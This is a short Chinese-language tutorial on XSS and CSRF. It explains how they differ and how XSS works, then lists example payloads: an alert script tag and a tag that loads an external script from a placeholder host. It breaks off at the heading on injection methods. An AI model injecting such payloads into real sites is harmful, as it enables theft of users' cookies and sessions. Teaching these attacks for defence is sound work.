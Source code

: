 # xss & csrf

## 区别

xss:主要是代码注入的形式去攻击，内容没有过滤，导致浏览器将攻击者的输入当代码执行。<br/>
csrf:主要是伪造身份去攻击，是 http 问题，因为浏览器在发送 http 请求的时候，会携带 cookie,而一般的网站 session 都存在 cookie 里。

## XSS

`Cross-Site Scripting(跨站脚本攻击)`简称 XSS,是一种<b>代码注入攻击</b>攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全

### xss 攻击原理

HTML 是一种超文本标记语言，通过将一些字符特殊地对待来区别文本和标记，例如，小于符号（<）被看作是 HTML 标签的开始，之间的字符是页面的标题等等。当动态页面中插入的内容含有这些特殊字符（如<）时，用户浏览器会将其误认为是插入了 HTML 标签，当这些 HTML 标签引入了一段 JavaScript 脚本时，这些脚本程序就将会在用户浏览器中执行。所以，当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生 XSS 漏洞。

## xss 攻击载荷

### 1. script 标签

`<script>` 标签是最直接的 XSS 有效载荷，脚本标记可以引用外部的 JavaScript 代码，也可以将代码插入脚本标记中

```js
<script>alert(1)</script> //弹出1
<script src="xxx.com/xss.js"></script> //外部脚本注入
```

### xss 注入方式
